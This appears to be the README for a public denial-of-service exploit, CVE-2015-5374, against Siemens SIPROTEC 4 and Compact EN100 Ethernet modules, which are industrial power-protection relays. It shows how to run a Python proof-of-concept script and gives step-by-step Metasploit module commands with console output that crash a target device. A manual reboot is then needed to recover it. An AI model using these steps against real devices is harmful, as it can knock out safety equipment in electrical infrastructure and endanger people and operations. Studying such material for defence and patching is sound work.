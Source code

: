 CVE-2015-5374 Siemens SIPROTEC 4 and SIPROTEC Compact EN100 Ethernet Module < V4.25 - Denial of Service
====================================
This code sends a specially crafted packet to Port 50000/UDP could cause a denial of service of the affected device. A manual reboot is required to return the device to service. CVE-2015-5374 and a CVSS v2 base score of 7.8 have been assigned to this vulnerability.
```
can@exploit:~/siprotec_dos_poc$ python Siemens_SIPROTEC_DoS.py <target>
CVE-2015-5374 Siemens SIPROTEC 4 and SIPROTEC Compact EN100 Ethernet Module < V4.25 - Denial of Service
Sending packet to <target> ...
Done, say goodbye!
```
## Metasploit Module

This module sends a specially crafted packet to Port 50000/UDP could cause a denial of service of the affected device. A manual reboot is required to return the device to service. 
## Verification Steps

  1. Do: ```use auxiliary/dos/scada/siemens_siprotec4```
  2. Do: ```set RHOST [Target IP]```, replacing ```[Target IP]``` with the IP address you wish to attack.
  3. Do: ```run```
  4. If the Siemens SIPROTEC 4 or Compact device has one of the vulnerable versions, it will immediately crash.

## Options

  ```set RHOST [Target IP]```, ```set RPORT [Target Port (Default 50000)]```.

## Scenarios

  ```
msf auxiliary(siemens_siprotec4) > info

       Name: Siemens SIPROTEC 4 and SIPROTEC Compact EN100 Ethernet Module < V4.25 - Denial of Service 
     Module: auxiliary/dos/scada/siemens_siprotec4
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  M. Can Kurnaz

Basic options:
  Name   Current Setting  Required  Description
  ----   ---------------  --------  -----------
  RHOST                   yes       The target address
  RPORT  50000            yes       The target port (UDP)

Description:
  This module sends a specially crafted packet to port 50000/UDP 
  causing a denial of service of the affected (Siemens SIPROTEC 4 and 
  SIPROTEC Compact) devices. A manual reboot is required to return the 
  device to service. CVE-2015-5374 and a CVSS v2 base score of 7.8 
  have been assigned to this vulnerability.

References:
  https://www.exploit-db.com/exploits/44103/
  https://ics-cert.us-cert.gov/advisories/ICSA-15-202-01

msf auxiliary(siemens_siprotec4) > show options 

Module options (auxiliary/dos/scada/siemens_siprotec4):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  50000            yes       The target port (UDP)

msf auxiliary(siemens_siprotec4) > set rhost 192.168.1.61
rhost => 192.168.1.61
msf auxiliary(siemens_siprotec4) > run

[*] Sending DoS packet ... 
[*] Auxiliary module execution completed
msf auxiliary(siemens_siprotec4) > 
```
